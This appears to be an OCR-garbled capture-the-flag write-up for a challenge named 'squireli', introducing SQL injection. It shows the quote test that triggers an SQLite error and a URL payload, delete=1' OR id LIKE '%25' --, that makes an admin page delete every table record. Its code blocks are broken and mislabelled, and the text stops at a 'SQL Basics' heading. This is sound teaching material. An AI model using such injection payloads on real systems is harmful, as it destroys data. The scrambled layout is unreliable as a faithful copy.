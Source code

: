 commented tag.

```pgsql
my first attempt is to delete all records using 
```

wildcard character but it's not that easy.

```less
after a few minutes, I saw when I add a ``'`` after 
```

the record id SQL error shows up

````autohotkey
```text
	Warning: SQLite3::exec(): unrecognized 
````

token: "'1''" in /var/www/html/admin.php on line 40

````pgsql
```

now the only thing to do is craft a good SQL query 
````

to delete all records from the table and get the flag

````sql
```sql
	-- http://10.0.41.17:1337/admin.php?
````

delete=1' OR id LIKE '%25'%20 --

```sql
	-- server executes our SQL query like this
	DELETE FROM <tablename> WHERE id = '1' OR 
```

id LIKE '%' --'

````scheme
```
````

# squireli
## SQLi

This challenge is a basic introduction to SQL injection. The concept was made easy by this challenge providing a single attack vector. We don't have to go searching for a place to input our injection.

SQLi misuses a malformed SQL query hard-coded into the vulnerable program by taking advantage of unsanitized user input. The premise here is that we end the portion of the query that we cannot edit and append our own query to the end of it in order to manipulate a database, and its information, in ways that we want.

## SQL Basics
